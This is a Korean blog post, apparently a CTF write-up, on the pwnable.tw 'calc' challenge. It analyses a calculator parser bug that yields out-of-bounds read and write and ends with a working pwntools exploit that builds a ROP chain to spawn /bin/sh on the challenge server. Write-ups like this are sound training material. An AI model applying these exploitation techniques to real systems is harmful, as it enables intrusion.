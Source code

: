 ```yaml
---
layout: post
title: ! ' [pwnable.tw] calc writeup '
excerpt_separator: <!--more-->
comments: true
tags:
  - Write-up
  - pwnable.tw
  - pwnable
---
```


pwnable.tw 문제 풀었습니다. 150점 짜리면 세번째로 쉬운건데 너무 오래걸렸네요... 갈 길이 멉니다..

<!--more-->

## calc (150 pts)

[pwnable.tw](https://pwnable.tw/) 문제입니다. 여긴 난이도가 꽤 있는거 같아요.. 확실히 100pts 문제에 비해 푼 사람이 절반이라는 게 놀랍군요.

![]({{ site.baseurl }}/images/KRater/2018-10-02-pwnable-tw-calc/pic01.PNG)

문제 자체는 상당히 심플한 프로그램입니다. 계산기에요. 근데 프로그램 코드가 좀 긴 편입니다. 분석하기 싫게 만들었어요. main 함수 안으로 들어가보면 알람 60초 걸어놓고 calc 함수를 호출하는 데, 이게 가장 중요한 함수입니다. 들어가서 의사코드로 확인해볼게요.

![]({{ site.baseurl }}/images/KRater/2018-10-02-pwnable-tw-calc/pic02.PNG)

무한루프로 1분동안 계속 실행되고, get_expr, parse_expr 함수가 눈에 띕니다. get_expr 함수는 입력받아서 화이트리스트를 통해 올바르지 않은 입력값은 아예 받아들이지 않습니다. 반면에 걸러진 표현식은 expr 변수에 저장됩니다. 이 함수는 표현식이 올바른지는 검사하지 않습니다. 단지 화이트리스트 내의 원소에 포함인지만 검사해요.

![]({{ site.baseurl }}/images/KRater/2018-10-02-pwnable-tw-calc/pic04.PNG)

parse_expr는 걸러진 표현식을 이용해 계산을 수행합니다. 내부적으로 eval 이라는 함수를 이용해서 계산하는데, 계산하는 방식이 조금 특이합니다. 16 + 4 라는 표현식을 계산한다고 가정 해 봅시다. 먼저 1과 6을 넘긴 뒤 '+'에 도달하면 표현식을 분해하기 시작합니다. 16은 2bytes를 차지하므로 null 까지 3bytes를 동적 할당한 뒤, 이를 atoi 함수를 이용해서 int형으로 바꾸어주는 작업을 합니다. 바뀐 숫자는 poll 배열에 들어갑니다. 그 뒤 기호 배열(s)이 현재 비어있으므로, '+' 기호를 기호 배열에 넣습니다. 다음 숫자 4를 넘기고 expr 분석을 종료하면 기호 배열에서 연산 기호를 빼내면서 차례대로 연산합니다. 만약 *, /가 등장하면 이는 스택처럼 작동하여 적절하게 우선순위 연산을 수행합니다.

parse_expr이 에러를 감지하는 경우는 크게 두가지입니다. 첫 번째로는 연산 기호 이후에 숫자가 오지 않았을 경우입니다. 두 번째로는 숫자에 '0'이 나오는 경우입니다. 이 두 가지의 경우는 계산을 강제로 종료하고, 나머지는 정해진 대로 연산을 수행합니다. 그런데 문제는 맨 처음에 숫자 대신 연산 기호가 나타나는 경우를 제어하고 있지 않아서 발생합니다.

![]({{ site.baseurl }}/images/KRater/2018-10-02-pwnable-tw-calc/pic03.PNG)

현재 계산을 수행하는 과정은 가장 처음 표현식이 숫자라고 가정하면서 출발합니다. 만약 숫자, 연산기호, 숫자의 형식이 아니라 연산기호, 숫자의 형식으로 값이 들어와도 정상이라고 생각하죠.

![]({{ site.baseurl }}/images/KRater/2018-10-02-pwnable-tw-calc/pic06.PNG)

보기 쉽게 바꿔주면 이렇습니다. IDA에서 구조체 선언은 처음 해봤는데 보기 편하네요. 

![]({{ site.baseurl }}/images/KRater/2018-10-02-pwnable-tw-calc/pic05.PNG)

eval에서 연산할 때 p->numbers의 배열을 참조하는데, 이때 cnt의 값에 따라서 참조하는 배열 위치가 다릅니다. 그런데 이부분을 init_pool에서 100개까지만 정리하므로 그 밖의 값들은 정리가 안될거에요. 그럼 이런 상황에서 만약에 '' + 100과 같은 값을 입력했다고 가정해봅시다. 일단 ''이 atoi('')에서 0을 반환하는 데, 0의 경우에는 numbers에 접근하지 않습니다. 근데 numbers에 접근하지 않으면 cnt도 증가시키지 않아요. 그리고 '+' 연산 기호가 스택에 들어가고, 100이 numbers에 접근하면서 cnt가 1이 됩니다.

![]({{ site.baseurl }}/images/KRater/2018-10-02-pwnable-tw-calc/pic07.PNG)

지금 cnt가 1이죠. 그런데 eval 함수에서 더하기 연산을 하면서 `p->numbers[-1] = p->numbers[-1] + p->numbers[0]`이 됩니다. p->numbers[-1]은 p->cnt입니다. 그러면 p->cnt가 1이었다가 입력해준 숫자랑 더해지면서 101이 될겁니다. eval에서 마지막에 --p->cnt를 해주면서 다시 입력해 준 숫자가 됩니다. 결국 p->cnt가 매우 커졌을뿐만 아니라, 우리가 원하는 값으로 제어됩니다. 그럼 출력하는 부분을 볼까요?

![]({{ site.baseurl }}/images/KRater/2018-10-02-pwnable-tw-calc/pic08.PNG)

p->numbers[p->cnt - 1]입니다. 그러면 p->cnt가 우리가 입력한 값이니까 `입력한 값-1` 의 위치에 있는 정수를 출력할 수 있게됩니다. p->numbers의 0번째부터 canary까지는 `356(*4) bytes` 만큼 떨어져있으니, 입력할 값을 357로 해주면 canary가 출력됩니다.

![]({{ site.baseurl }}/images/KRater/2018-10-02-pwnable-tw-calc/pic09.PNG)

또한 임의 메모리에 값을 덮어쓸 수도 있게되었습니다. 임의 메모리 오프셋으로 p->cnt 값을 조정해주고 거기다가 값을 더하거나 빼면 eval함수에서 해당 메모리의 값이 조작되니까요. 이를 기반으로 익스플로잇 코드를 작성했습니다.

```python
from pwn import *

PROCESS = "./calc"
HOST = "chall.pwnable.tw"
PORT = 10100
#r = process(PROCESS)
r = remote(HOST, PORT)

addr_bin_sh = 0x080ee360
_bin = 0x6e69622f
__sh = 0x0068732f

pop_eax = 0x0805c34b # pop eax; ret
pop_ecx_ebx = 0x080701d1 # pop ecx; pop ebx; ret
pop_edx = 0x080701aa # pop edx; ret
write_ecx = 0x080958c2 # add [ecx], eax; ret
int80 = 0x08070880 # int 0x80; ret

def main () :
	r.recvuntil("==\n")
	insert(361, pop_eax)
	insert(362, _bin)
	insert(363, pop_ecx_ebx)
	insert(364, addr_bin_sh)
	insert(365, addr_bin_sh)
	insert(366, write_ecx)
	insert(367, pop_eax)
	insert(368, __sh)
	insert(369, pop_ecx_ebx)
	insert(370, addr_bin_sh+4)
	insert(371, addr_bin_sh+4)
	insert(372, write_ecx)
	insert(373, pop_eax)
	insert(374, 0xb)
	insert(375, pop_ecx_ebx)
	insert(376, addr_bin_sh+8)
	insert(377, addr_bin_sh)
	insert(378, pop_edx)
	insert(379, addr_bin_sh+8)
	insert(380, int80)
	r.sendline("")

	# get shell
	r.interactive()

def insert (index, data) :
	show = "+" + str(index)
	r.sendline(show)
	origin = int(r.recvline())
	if (origin < 0) :
		origin *= -1

	payload = show
	payload += "+" + str(int(data))
	payload += "-" + str(origin)
	r.sendline(payload)
	print (payload)
	r.recv(1024)

if __name__ == '__main__' :
	main ()
```

.BSS 영역에 /bin/sh를 써주고 실행시키는 쉘 코드를 연산을 통해 작성했습니다. 쓰고보니 쓴 값에 따라서 꼬랑지가 결정되므로 좀더 이쁘게 쓸 수 있더라구요.. 그래도 뭐 작동하니까요 ㅎ..

![]({{ site.baseurl }}/images/KRater/2018-10-02-pwnable-tw-calc/pic10.PNG)

읽어주셔서 감사합니다 :)
<!--stackedit_data:
eyJoaXN0b3J5IjpbMjIyNTc1NDEyXX0=
-->